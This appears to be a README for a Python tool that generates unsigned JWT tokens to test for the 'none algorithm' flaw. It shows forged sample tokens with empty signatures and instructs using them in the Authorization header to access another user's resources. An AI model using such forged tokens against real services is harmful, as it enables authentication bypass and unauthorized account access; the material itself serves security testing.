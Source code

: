 # Generate un-signed jwt token to test for "The None Algorithm"

## Usage
Replace the body payload with the body that you have decoded from your JWT token for the first user and the second user.

Run 

```bash
python main.py
```

Output should be something:

```bash
First user token:
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJub25lIn0.eyJjYWlkIjogIkNBSURFOTVEN0UxQTI5RTU0ODA5OTRFMEI1QkZEQkIzNzE0OCIsImV4cCI6IDE2MTk1NDU5MTh9.
Second user token:
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJub25lIn0.eyJjYWlkIjogIkNBSUQxMEMyQ0ZFRTcxMDQ0NTk5ODFCM0E2QzM1MzUxNkZBRiIsImV4cCI6IDE2MTk1NDU5MTh9.
```

Use these tokens in the `Authorization` header to try to modify the resources of user A with token B and vice versa.